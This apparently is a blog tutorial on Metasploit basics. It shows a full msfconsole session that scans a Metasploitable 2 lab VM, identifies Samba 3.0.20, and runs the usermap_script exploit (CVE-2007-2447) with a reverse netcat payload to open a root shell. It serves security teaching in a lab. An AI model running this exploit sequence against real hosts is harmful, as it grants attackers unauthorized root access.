 ```yaml
---
layout: post
title: "Metasploit Basics"
description: "Form the first start to a reverse shell on a vulnerable host"
#image: /assets/img/.png
#date-modified: 2020-mm-dd
excerpt_separator: <!--more-->
categories: [ "Security" ]
tags: [ "Metasploit", "Kali", "Metasploitable" ]
---
```


This guide show a basic way to use Metasploit (from the Kali Linux distribution). As a result, a reverse shell on a vulnerable host will be open.

This is *not* a guide for `Metasploitable 2`.

## Requirements

To follow this guide exactly:

- a VMware virtual machine with Kali Linux and Metasploit installed. See [Kali Linux on VMware Workstation]({% post_url 2022-11-19-Kali_VMware %}) if you need assistance.
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2) virtual machine. I've downloaded [Metasploitable 2 from SourceForge](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) site.

## Getting started

Prepare the `Metasploitable 2` guest:

- Load `Metasploitable 2` virtual machine in VMware and remove the network adapter that is **not** connected to the `Host-only` network.
- Start `Metasploitable 2` and login with `msfadmin:msfadmin` credential
- Execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.129`

In Kali open a terminal, execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.130`, then and start `msfconsole`.

**Note:** Most of the commands in `msfconsole` will display their help if called with `-h` flag.

```sh
# create a new workspace
msf6 > workspace -a metasploitable
[*] Added workspace: metasploitable
[*] Workspace: metasploitable

# db_nmap uses nmap then stores the results in the workspace's database
# without port specification it will scan the most common 1000 TCP ports
# using the flag `-sV` will also query the open ports to try to identify the services
msf6 > db_nmap -n -sV 172.16.115.129
[*] Nmap: Starting Nmap ...
...

# is only one host now but using the `host` command you can see all the hosts in this workspace
msf6 > hosts
Hosts
=====
address         mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---  ----  -------  ---------  -----  -------  ----  --------
172.16.115.129             Linux                      server

# the `services` command shows the services in this workspace
msf6 > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
172.16.115.129  21     tcp    ftp          open   vsftpd 2.3.4
172.16.115.129  22     tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
172.16.115.129  23     tcp    telnet       open   Linux telnetd
172.16.115.129  25     tcp    smtp         open   Postfix smtpd
172.16.115.129  53     tcp    domain       open   ISC BIND 9.4.2
172.16.115.129  80     tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
172.16.115.129  111    tcp    rpcbind      open   2 RPC #100000
172.16.115.129  139    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  445    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  512    tcp    exec         open   netkit-rsh rexecd
172.16.115.129  513    tcp    login        open   OpenBSD or Solaris rlogind
172.16.115.129  514    tcp    shell        open   Netkit rshd
...

# using a dedicated module we may get better information about Samba's version
msf6 > use auxiliary/scanner/smb/smb_version
# set the RHOSTS option with the address of the Metaspoitable vm
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129
# start the module
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 172.16.115.129:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 172.16.115.129:445    -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 172.16.115.129:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# the new version was stored in workspace's database
msf6 auxiliary(scanner/smb/smb_version) > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
...
172.16.115.129  445    tcp    smb          open   Unix (Samba 3.0.20-Debian)
...

# Note: is faster to use `search Samba` because the list of available
# exploits is way shorter that the list of vulnerabilities, but ...

# using OpenVAS ...
# ... or searching for Samba in [NIST - Search Vulnerability Database](https://nvd.nist.gov/vuln/search)
# ... or searching for Samba in [MITRE - Search CVE List](https://cve.mitre.org/cve/search_cve_list.html)
# (I have used "Samba code" as a search term)
# we can find that CVE-2007-2447 allow remote attackers to execute arbitrary code in Samba version 3.0.20
# do we have an exploit for this one ?
msf6 auxiliary(scanner/smb/smb_version) > search CVE-2007-2447
Matching Modules
================
   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

# select the exploit
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
[*] Using configured payload cmd/unix/reverse_netcat

# View the full module information with the info, or info -d command

# Check module's options
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic

# set the RHOSTS option with the address of the Metaspoitable vm
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129

# because the payload uses a reverse connection LHOST must be the address
# of the this vm
msf6 exploit(multi/samba/usermap_script) > set LHOST 172.16.115.130 
LHOST => 172.16.115.130

# start
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 172.16.115.130:4444 
[*] Command shell session 1 opened (172.16.115.130:4444 -> 172.16.115.129:53175) at 2022-11-19 11:12:13

# try some commands on the remote host
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
exit
[*] 172.16.115.129 - Command shell session 1 closed.

# bye
msf6 exploit(multi/samba/usermap_script) > exit
```

